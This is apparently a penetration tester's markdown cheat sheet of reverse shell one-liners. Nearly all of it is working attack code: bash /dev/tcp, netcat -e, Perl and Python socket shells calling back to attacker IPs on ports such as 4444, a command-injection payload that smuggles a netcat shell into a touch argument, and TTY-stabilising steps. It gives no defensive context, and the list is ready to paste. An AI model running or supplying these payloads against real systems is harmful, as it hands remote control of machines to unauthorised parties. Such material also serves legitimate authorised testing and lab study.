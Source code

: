# Reverse shell scripts

## Proper working reverse shell
```
CTRL + Z -> It will run the session in the background
stty raw -echo
fg
fg
```

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

## Using shell
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

## Using Netcat
```
cmd=nc -nv 192.168.1.71 4444 -e /bin/bash  
```

## Using Perl
```
perl -e 'use Socket;$i="192.168.1.5";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.6",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.32\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")'
```

## Command injection reverse shell
```
touch ; nc 10.10.14.52 5555 -e /bin/bash
touch '; nc 10.10.14.52 5555 -e /bin/bash'
```
